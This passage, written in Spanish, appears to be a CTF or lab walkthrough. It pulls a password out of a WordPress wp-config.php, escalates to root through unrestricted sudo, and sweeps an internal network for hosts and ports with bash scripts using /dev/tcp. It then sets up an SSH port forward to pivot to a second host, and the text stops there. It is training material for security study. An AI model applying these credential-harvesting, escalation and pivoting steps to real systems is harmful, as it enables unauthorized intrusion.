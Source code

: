 Buscamos si hay alguna contrasenna seteada en e fichero de configuracion de worlpress
**cat wp-config.php | grep -A 3 "password"** y obtenemos 1  'R3&]vzhHmMn9,:-5'

probamos el usuario y la contrasenna encontrada y pues accedemos al usuario pudiendo asi hacer una migracion de usuario

Utilizamos comando **id** para ver a que grupos pertenece.


hacemos con el usuario takis un sudo -l y nos arroja que tine permitido ejecutar cualquier comando sin necesidad de password por lo que escalamos privilegios con **sudo su**
nos vamos al directorio de root donde nos deja un mensaje y luego hacemos una búsqueda de algun archivo que contenga USB que es parte del mensaje dejado en el fichero que nos dejo root
find / -name `\*USB\*

este comando hace una busqueda desde la raiz de algun fichero que contenga USB en su nombre
encontramos un archivo donde esta la flag a partir de aqui vamos a utilizar esta maquina como pivoting para atacar nuestra siguiente maquina

**which** -> comando para encontrar programas donde estan instalados .  **which ping** 
Detectamos que hay mas de una ip en la pc por lo que haremos un host discoveri con bash en la maquina objetico para detectar otra pc en la re 
hostDiscovery.sh
#!/bin/bash
for i in $(seq 1 254); do
	timeout 1 bash -c "ping -c 1 10.10.10.$i" &>/dev/null && echo "[+] La IP esta activa" &
done

el **&** al final de la line lo que doce es que siga a la siguiente ejecucion que lo realice en paralelo
para ver si hay puertos habiertos  en este caso el puerto 22
echo '' > /dev/tcp/10.10.10.128/22
echo $?    te da el codigo de estado del comando anterior 0 si obtuvo algo de lo contrario otro numero

Ahora haremos un portDiscovery.sh

#!/bin/bash
for port in $(seq 1 25); do
        timeout 1 bash -c "echo '' > /dev/tcp/10.10.10.128/$port" &>/dev/null && echo "[+] El puerto $port esta abierto" || echo "[+] El puerto esta cerrado" &
done; wait

podemos omitir despues del or para no tener que mostrar todos los pueros que no estan habiertos a fin de cuentas son 65335, version mas acertada del script

#!/bin/bash
for port in $(seq 1 25); do
        timeout 1 bash -c "echo '' > /dev/tcp/10.10.10.128/$port" &>/dev/null && echo "[+] El puerto $port esta abierto" &
done; wait

Vemos que tiene el puerto 80 habierto y vamos a intentar traerno ese puerto a nuestra maquina para poder realizar un ataquea esa otra maquina, aqui haremos chisel para traernos esta ip a nuestra maquina
1 - Nos conectaremos a la maquona intermedia mediante ssh desde nuestra terminal con el usuario **takis** y pass **'R3&]vzhHmMn9,:-5'** haciendo un **port forwardin** a la maquina que esta en la red a la que directamente no tenemos acceso sino mediante la maquina que ya comporometimos
**ssh -L 80:10.10.10.128:80 takis@192.168.1.12**
